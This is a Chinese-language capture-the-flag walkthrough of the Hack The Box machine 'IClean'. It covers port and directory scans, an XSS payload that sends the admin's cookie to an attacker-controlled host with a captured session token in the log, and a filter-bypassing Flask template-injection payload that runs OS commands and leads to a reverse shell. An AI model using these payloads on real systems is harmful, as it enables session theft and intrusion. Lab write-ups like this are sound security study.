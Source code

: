 # \[level:Medium] IClean

## 一 、信息收集

| 靶机信息 |                       |
| ---- | --------------------- |
| IP   | 10.129.99.246         |
| 域名   | http://capiclean.htb/ |

### 1.1 nmap扫描结果

```
┌──(a1ertx5s㉿kali)-[~]
└─$ nmap -Pn 10.129.99.246
Starting Nmap 7.94 ( https://nmap.org ) at 2024-04-10 22:50 CST
Nmap scan report for capiclean.htb (10.129.99.246)
Host is up (0.34s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 122.72 seconds
```

### 1.2 url目录扫描结果

```
┌──(a1ertx5s㉿kali)-[~]
└─$ dirsearch -u http://capiclean.htb/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/a1ertx5s/reports/http_capiclean.htb/__24-04-10_23-08-03.txt

Target: http://capiclean.htb/

[23:08:03] Starting: 
[23:09:40] 200 -    5KB - /about
[23:12:01] 302 -  189B  - /dashboard  ->  /
[23:13:22] 200 -    2KB - /login
[23:13:25] 302 -  189B  - /logout  ->  /
[23:14:45] 403 -  278B  - /server-status
[23:14:46] 403 -  278B  - /server-status/
[23:14:46] 200 -    8KB - /services

Task Completed
```

扫描结果没啥用, 就一个dashboard值得关注.

### 1.3 指纹信息

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

开发框架是Flask,猜测漏洞为模板注入.

### 二、渗透过程

### 2.1 XSS获取管理员cookie

随便逛逛可以发现有一个quote页面,页面可以给管理员留言,尝试是否存在xss,能否利用xss获取管理员cookie.

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>burp suite 抓包</p></figcaption></figure>

其中exp是url encode过的.

```html
<img src=x onerror=fetch("http://hackIP:Port/?cookie="+document.cookie);>
```

可以使用python3的http server进行cookie的捕获,结果如下

```
┌──(a1ertx5s㉿kali)-[~]
└─$ python3 -m http.server 959
Serving HTTP on 0.0.0.0 port 959 (http://0.0.0.0:959/) ...
10.129.99.246 - - [10/Apr/2024 23:21:57] "GET /?cookie=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhaHiw.vNyGcFEurcPrFcHAjqEJsNVRkFo HTTP/1.1" 200 -
```

成功获取cookie, 将cookie加入到header中,再去访问dashboard.

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

成功进入到dashboard页面.

### 2.2 Flask SSTI 反弹shell

开发框架是Flask,猜测漏洞为模板注入.

在Generate invoice下生成一个id,然后到Gnerate QR下尝试.

<figure><img src="../.gitbook/assets/4ac119a9433cd746fa3d45d2e9b96d7.png" alt=""><figcaption></figcaption></figure>

可以发现qr\_link字段存在模板注入.一般的模板注入在这里是失效的,应该是存在黑名单之类的过滤手段,这里使用resquet和attr组合进行绕过,exp如下:

```
{{ request | attr("application") | attr("\x5f\x5fglobals\x5f\x5f") | attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os") | attr("popen")("uname -a") | attr("read")() }}
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

接下来就利用这个注入点反弹shell,需要进行url encode.

<figure><img src="../.gitbook/assets/0f9992e7611a8efaed1c3810592ce7c.png" alt=""><figcaption></figcaption></figure>

成功获取www-data权限,查看app.py文件,发现数据库相关信息.

<figure><img src="../.gitbook/assets/86edeef6eb3de119a224042dbc60d82.png" alt=""><figcaption></figcaption></figure>

连接数据库,在user表下发现账号以及口令的hash值.

